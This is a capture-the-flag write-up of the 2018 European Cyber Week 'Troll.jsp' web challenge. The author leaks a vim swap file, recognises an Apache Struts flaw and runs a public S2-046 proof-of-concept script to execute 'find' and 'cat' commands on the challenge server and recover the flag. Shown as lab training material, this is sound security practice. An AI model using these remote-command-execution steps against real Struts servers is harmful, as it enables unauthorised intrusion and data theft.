 # [European Cyber Week] - Troll.jsp



## State of the art

A marvelous Java website, I looooove Java (joke.), so the flag appears to have been stolen:


![](/lib/images/writeups/2018_ecw/trolljsp/troll_1.png)


I had to guess the `flag.jsp` page:


![](/lib/images/writeups/2018_ecw/trolljsp/troll_2.png)


On `md5decrypt.net`, this hash gives us: `swp`, it looks like a backup file of vim. Let's try something like `.flag.jsp.swp`.

## Backup file

Oh, looks like we have the code of the `flag.jsp` page:

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib prefix = "s" uri = "/struts-tags" %>

<html>
   <head>
      <title>Flag page!</title>
   </head>
   <body>
<!--TODO change the flag -->
   <s:set var='flag' value='%{"ECW{2f3f3238f9a5783fe4767d77e53aaf3b}"}'/>
   <s:set var='trollFlag' value='%{"ECW{a9ec6fc4217038a6f91294b8e5ed9933}"}'/>

   <s:set var='result' value='%{#session.flag!=null?#flag:#trollFlag}'/>
<p>
      Congratz! You got a flag: <s:property value = "result"/>
</p>
   </body>
</html>
```

The new hash is still a fake flag. On `md5decrypt`, it gives us __equifax__.

> https://www.zdnet.fr/actualites/faille-apache-struts-equifax-veut-noyer-le-poisson-39857358.htm

Well, it's an Apache struts vulnerability. There are a lot of GitHub repositories exploiting this vulnerability, here is one of them: https://github.com/jas502n/st2-046-poc

## Exploitation

I just execute the GitHub script:

```bash
$ bash ./exploit-cd.sh https://web125-trolljsp.challenge-ecw.fr/.flag.jsp.swp 'find . -ls | grep flag'
[...]
  6556060     12 -rw-r-----   1 tomcat   tomcat      11530 Aug 22 13:35 ./opt/tomcat/work/Catalina/localhost/ECW/org/apache/jsp/flag_jsp.class
  6556061     16 -rw-r-----   1 tomcat   tomcat      16046 Aug 22 13:35 ./opt/tomcat/work/Catalina/localhost/ECW/org/apache/jsp/flag_jsp.java
  6556025      4 -rwxr-xr-x   1 root     root         2249 Aug 22 13:35 ./opt/tomcat/webapps/ECW/flag.jsp
  6556001      4 -rwxr-xr-x   1 root     root          556 Aug 22 13:34 ./opt/tomcat/webapps/ECW/.flag.jsp.swp
[...]

$ bash ./exploit-cd.sh https://web125-trolljsp.challenge-ecw.fr/.flag.jsp.swp 'cat ./opt/tomcat/webapps/ECW/flag.jsp'
[...]
              </a>
            </li>
          </ul>
        </div>
      </div>
    </nav><s:set var='flag' value='%{"ECW{babde20f76698360d6f1a500b821e797}"}'/><s:set var='trollFlag' value='%{"ECW{a9ec6fc4217038a6f91294b8e5ed9933}"}'/><s:set var='result' value='%{#session.flag!=null?#flag:#trollFlag}'/>
    <div class="container">
      <div class="row">
        <div class="col-lg-12 text-center">
			<p class="lead">Now that's a flag! <s:property value = "result"/></p>
[...]
```

## Flag

> ECW{babde20f76698360d6f1a500b821e797}
